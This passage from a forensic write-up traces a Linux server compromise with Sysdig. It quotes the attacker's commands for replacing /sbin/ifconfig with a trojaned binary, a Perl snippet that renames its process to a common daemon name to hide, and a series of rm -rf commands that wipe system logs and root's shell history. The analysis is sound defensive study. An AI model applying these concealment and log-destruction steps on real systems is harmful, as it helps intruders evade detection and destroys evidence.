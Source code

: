 Ah, now it’s clear: a bunch of compromised binaries. So I’m guessing that in my `spy_users` output I’ll see the attacker replacing the system ones:

    06:13:18 root) chattr -isa /sbin/ifconfig
    06:13:18 root) cp /sbin/ifconfig /usr/lib/libsh/.backup
    06:13:18 root) mv -f ifconfig /sbin/ifconfig
    06:13:18 root) chattr +isa /sbin/ifconfig

Indeed. And he was even nice enough to leave me a backup copy. So far so good: I got a couple IRC bots, some compromised system binaries, and I managed to explain the flood of UDP traffic that I was seeing at the beginning. There’s just one thing left: why `topprocs_net` is showing me that all the UDP traffic was generated by `/usr/sbin/httpd` and `/usr/local/apac` processes, which are binaries that I didn’t even see installed on the machine from the `spy_users` output? I would have guessed that the perl bot itself would have been the one sending out the UDP packets, since it’s the one receiving the commands. Let’s use Sysdig again and go at the system call level. I want to see all the events related to `/usr/local/apac`:

    $ sysdig -r trace.scap.gz -A evt.args contains /usr/local/apac
    ...
    955716 06:13:20.225363385 0 perl (10200) < clone res=10202(perl) exe=/usr/local/apach args= tid=10200(perl) pid=10200(perl) ptid=7748(-bash) cwd=/tmp fdlimit=1024 flags=0 uid=0 gid=0 exepath=/usr/bin/perl
    ...

And while we’re here, I also want to see when this perl process with pid 10200 started:

    $ sysdig -r trace.scap.gz proc.pid = 10200
    954458 06:13:20.111764417 0 perl (10200) < execve res=0 exe=perl args=.sloboz.pdf. tid=10200(perl) pid=10200(perl) ptid=7748(-bash) cwd=/run/shm fdlimit=1024 exepath=/usr/bin/perl

As suspected, the perl process is nothing more than `.sloboz.pdf`, which we saw before. But did you see what just happened? It can be tricky for a non-trained eye: the perl process (presumably the DoS client) forked itself (clone event 955716), but at some point before that it changed its executable name and arguments (`exe` and `args`) from `perl .sloboz.pdf` (event 954458) into a random, non suspicious `/usr/local/apach` (event 955716). This would have confused tools like ps, top and sysdig. Of course, there’s no `/usr/local/apach`. You can see that after the fork the process never executed a new binary, it just changed its name. By reading the source code of the perl client (always with `echo_fds`), I was able to confirm all this:

    my @rps = ("/usr/local/apache/bin/httpd -DSSL","/usr/sbin/httpd -k start -DSSL","/usr/sbin/httpd","/usr/sbin/sshd -i","/usr/sbin/sshd","/usr/sbin/sshd -D","/sbin/syslogd","/sbin/klogd -c 1 -x -x","/usr/sbin/acpid","/usr/sbin/cron");
    
    my $process = $rps[rand scalar @rps];
    
    $0="$process".""x16;;
    
    my $pid=fork;

The perl process changes its `argv` to a random common name, and then just forks itself, probably to daemonize. Finally, the attacker decided to get rid of the logs and replace them with new ones:

    06:13:30 root) rm -rf /var/log/wtmp
    06:13:30 root) rm -rf /var/log/lastlog
    06:13:30 root) rm -rf /var/log/secure
    06:13:30 root) rm -rf /var/log/xferlog
    06:13:30 root) rm -rf /var/log/messages
    06:13:30 root) rm -rf /var/run/utmp
    06:13:30 root) touch /var/run/utmp
    06:13:30 root) touch /var/log/messages
    06:13:30 root) touch /var/log/wtmp
    06:13:30 root) touch /var/log/messages
    06:13:30 root) touch /var/log/xferlog
    06:13:30 root) touch /var/log/secure
    06:13:30 root) touch /var/log/lastlog
    06:13:30 root) rm -rf /var/log/maillog
    06:13:30 root) touch /var/log/maillog
    06:13:30 root) rm -rf /root/.bash_history
    06:13:30 root) touch /root/.bash_history